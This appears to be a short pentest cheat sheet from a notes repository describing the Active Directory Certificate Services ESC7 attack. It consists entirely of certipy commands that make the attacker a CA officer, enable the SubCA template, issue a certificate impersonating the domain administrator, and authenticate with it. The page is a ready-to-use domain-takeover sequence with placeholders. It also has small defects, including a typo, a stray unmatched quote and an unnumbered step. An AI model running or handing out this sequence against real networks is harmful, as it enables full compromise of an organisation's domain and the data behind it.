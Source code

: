 # ADCS ESC7

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Addd Officer
```
certipy ca \
    -u '<username>' -p '<password>' \
    -ns 'NS_SERVER' -target '<CA_FQDN>' \
    -ca 'CA_HOST' -add-officer '<SAME_USERNAME>'
```

## 3. Enable SubCA
```
certipy ca \
    -u '<username>' -p '<password>' \
    -ns 'NS_SERVER' -target '<CA_FQDN>' \
    -ca 'CA_HOST' -enable-template SubCA'
```

## 4. Submit SubCA Template
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template SubCA \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
```

## Approve Template Request
```
certipy ca \
    -u '<username>' -p '<password>' \
    -ns 'NS_SERVER' -target '<CA_FQDN>' \
    -ca 'CA_HOST' -issue-request 1
```

## 6. Retrieve Request
```
certipy ca \
    -u '<username>' -p '<password>' \
    -ns 'NS_SERVER' -target '<CA_FQDN>' \
    -ca 'CA_HOST' -retrieve '1'
```

## 7. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
